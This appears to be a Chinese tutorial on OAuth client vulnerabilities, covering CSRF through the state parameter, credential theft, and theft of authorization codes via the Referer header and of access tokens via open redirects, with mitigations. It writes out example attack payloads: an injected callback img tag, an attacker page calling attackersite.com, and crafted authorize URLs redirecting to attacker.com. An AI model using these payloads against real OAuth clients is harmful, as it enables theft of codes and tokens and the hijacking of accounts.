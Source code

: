 # 常见的客户端漏洞

## 常规客户端安全
OAuth客户端有几种数据是需要保护的。客户端密钥、访问令牌、刷新令牌这些信息需要妥善保管，同时注意不要意外的将这些保密信息泄露到审计日志或其他记录中。除了存储系统上单纯的信息失窃外，OAuth客户端还可能出现其他类型的漏洞

### 针对客户端的CSRF攻击
授权码许可和隐式许可类型中推荐使用state参数，OAuth核心规范对该参数的描述如下
-   客户端用来维护请求与回调之间状态的不透明值。授权服务器在将用户代理重定向回客户端时包含该值。应该使用这个参数，可以防止CSRF（跨域请求伪造）


SCRF攻击
- 恶意应用软件让浏览器向已完成用户身份认证的网站发起请求，执行有害操作，这就是SCRF攻击。为了实施攻击，攻击者可以简单发起一个OAuth流程，从目标授权服务器上获取授权码，然后设法让受害用户的客户端使用攻击者的授权码如
```
    <img src="https://ouauthclient.com/callback?code=ATTACKER_AUTHORIZATION_CODE">
```
当用户点击图片，资源拥有者的客户端与攻击者的授权上下文之间建立了联系。如果OAuth协议用于身份认证，将造成灾难性后果。

OAuth客户端对于SCRF攻击可以生成一个难以猜测的state参数，在首次向授权服务器发送请求时将其一同传递，OAuth规范要求授权服务器将此参数原样返回至重定向URI，当重定向URI被调用时，客户端需要检查state参数值，如果不一致，则提示错误。
```
    生成的令牌（以及其他不由最终用户处理的凭证）被攻击者猜中的概率必须小于或等于2^-128，最好应该小于或等于2^-160
```
### 客户端凭证失窃
对于原生应用，可以通过动态注册功能，生成客户端密钥、客户端ID。在原生应用首次启动认证时请求注册接口返回客户端ID、客户端密钥，并由客户端保管。

### 通过Referrer盗取授权码
以授权码许可类型为目标，基于HTTP Referrer造成的信息泄漏，攻击者的最终目的是劫持资源拥有者的授权码。

假设你在一个OAuth提供商那里注册了OAuth客户端，该授权服务使用允许子目录的redirect_uri校验策略。

你的OAuth回调端点是：
https://yourouauthclient.com/oauth/oauthprovider/callback

但你注册的是:
https://yourouauthclient.com/

你的OAuth客户端在执行OAuth授权请求，发起的请求节选可能会是如下这样：
https://oauthprovider.com/authorize?response_type=code&client_id=CLIENT_ID&scope=SCOPES&state=STATE&redirect_uri=https://yourouauthclient.com/

攻击者也要能够在目标站点注册的重定向URI下创建网页：
https://yourouauthclient.com/usergeneratedcontent/attackerpage.html
```html
    <html>
        <h1>Authorization in progress</h1>
        <img src="https://attackersite.com">
    </html>
```

现在攻击者可以构造一个特殊的钓鱼URI：
https://oauthprovider.com/authorize?response_type=code&client_id=CLIENT_ID&scope=SCOPES&state=STATE&redirect_uri=https://yourouauthclient.com/usergeneratedcontent/attackerpage.html

当用户点击这个钓鱼URI授权服务器将返回授权码到重定向地址，受害者用户浏览器将在后台加载img标签，想攻击者的服务器请求资源，在这个请求中，HTTP Referrer头部会泄露授权码
### 通过开发重定向器盗取令牌
针对隐式许可类型，攻击目标是访问令牌而不是授权码。开放重定向Web漏洞定义：
应用接受一个参数，不进行任何校验就将用户重定向至该参数。这个漏洞被用于钓鱼攻击，让用户不知不觉访问恶意站点。

攻击发生条件：
- 注册了“过于宽松”的redirect_uri
- 授权服务器采用允许子目录的校验策略
- OAuth客户端具有开放重定向，如：https://yourouauthclient.com/redirector?goto=http://targetwebsite.com

攻击者可以构建如下URI
```
    https://oauthprovider.com/authorize?response_type=token&client_id=CLIENT_ID&scope=SCOPES&state=STATE&redirect_uri=https://yourouauthclient.com/redirector?goto=https://attacker.com
```

如果资源拥有者已经通过TOFU授权应用，或者被说服再次对应用授权，那么资源拥有者的用户代理将被重定向到传入的redirect_uri，并且URI的片段中附有access_token
```
    https://yourouauthclient.com/redirector?goto=https://attacker.com#access_token=
```

此时客户端应用中的开发重定向会将代理跳转至攻击者的网站，由于大多数浏览器中，URI片段会在重定向被保留，最终加载页面如下：
```
    https://attacker.com#access_token=
```